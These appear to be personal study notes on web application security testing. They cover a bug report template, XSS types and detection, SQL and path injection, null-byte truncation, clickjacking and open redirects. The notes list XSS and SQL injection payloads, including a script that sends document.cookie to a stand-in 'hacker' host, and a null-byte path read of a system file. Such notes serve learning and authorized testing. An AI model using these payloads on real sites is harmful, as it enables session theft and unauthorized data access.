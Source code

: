 ### Reports
 - title
 - severity
 - description
 - reproduction
 - impact
 - mitigation
 - affected urls

### XSS 
Types of XSS
 - Stored: saving xss as like a comment in a dba
 - Reflected: causing css through a url, like a flash
 - DOM: input from use is stored in dom, similar to reflected by using like the location (hash #) portion to exploit
 
Process to detect
 1. Figure out where it goes, Does it get embedded in a tag or a string in a script? 
 2. Special handling.  Url turned into links?
 3. How are special characters handle "<>;:'`
 
Good scripts to try
 - `"><h1>test</h1>` - will show up well on the page
 - '+alert(1)+'
 - "onmouseover="alert(1)
 - http://"onmouseover="alert(1)
 - hello <a name="n" href="javascript:alert('xss')">*you*</a>
 - '><img src=x onerror=alert(1);> or <img src=x onerror=alertHello!> or <b onclick=alert(1)>click me!
 - "><SCRIPT>var+img=new+Image();img.src="http://hacker/"%20+%20document.cookie;</SCRIPT>
 
### Injection
 - path injection - using . and .. to upload or read from system
 - command injection - using ``
 - sql - 
   - `' or 1='1` 
   - `' and 1='0`
   - `1' OR 1 = 1#`

   - ') or true--
   - ') or ('')=('
   - ') or 1--
   - ') or ('x')=('
   - " or true--
   - " or ""="
   - " or 1--
   - " or "x"="
   - ") or true--
   - ") or ("")=("
   - ") or 1--
   - ") or ("x")=("
   - 
   - '-'
   - ' '
   - '&'
   - '^'
   - '*'
   - ' or ''-'
   - ' or '' '
   - ' or ''&'
   - ' or ''^'
   - ' or ''*'
   - "-"
   - " "
   - "&"
   - "^"
   - "*"
   - " or ""-"

### Click Jacking
Embedding transparent iframe on a page over top of an area to click.  Can tell if you click on something and it doesn't do anything.

### Null Termination Bugs
The null byte terminates strings in c, you can take advantage of this for php, ruby, python when they are using dynamic includes

Allows you to truncate strings at will, really vulnerable to 

 - `?page=/etc/password%00`

### Unchecked Redirect
 - authorization (/oauth)
 - users could visit the page, be redirected and see a login page on another malicious site which dumps credentials into db
 
 Mitigation is to do away with the url entirely and either
  - remove http: from the url
  - construct/infer the url from the payload 
 
Detection
Exploitation
Mitigation
Authorization bypasses and forced browsing
Detection
Exploitation
Mitigation
